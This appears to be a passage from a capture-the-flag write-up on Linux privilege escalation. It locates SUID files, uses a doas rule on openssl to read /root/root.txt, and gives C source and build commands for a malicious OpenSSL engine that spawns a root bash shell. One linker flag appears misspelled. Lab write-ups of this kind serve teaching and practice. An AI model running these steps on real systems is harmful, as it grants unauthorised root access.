```
find / -type f -perm -u=s 2>/dev/null
...
/usr/bin/doas
...
```

**Note** - This find command finds files with the SUID bit allowing the attacker to run the file with greater privileges than the currently logged in user. 

According to [Payload of All Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#doas), Doas is an alternative to sudo for OpenBSD and its configuration can be checked at `/etc/doas.conf`

This shows that `openssl` can be exploited to run as root and I was able to validate it with the OpenSSL entry in [GTFOBins](https://gtfobins.github.io/gtfobins/openssl/)

```
doas openssl enc -in "/root/root.txt"
```

This can also be extended for a full reverse shell by creating a `exploit.c` file

```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

This needs to be then compiled and run

* `gcc -fPIC -o exploit.o -c exploit.c`
* `gcc -shared -o exploit.so -lcryto exploit.o`

```
openssl req -engine ./exploit.so
```

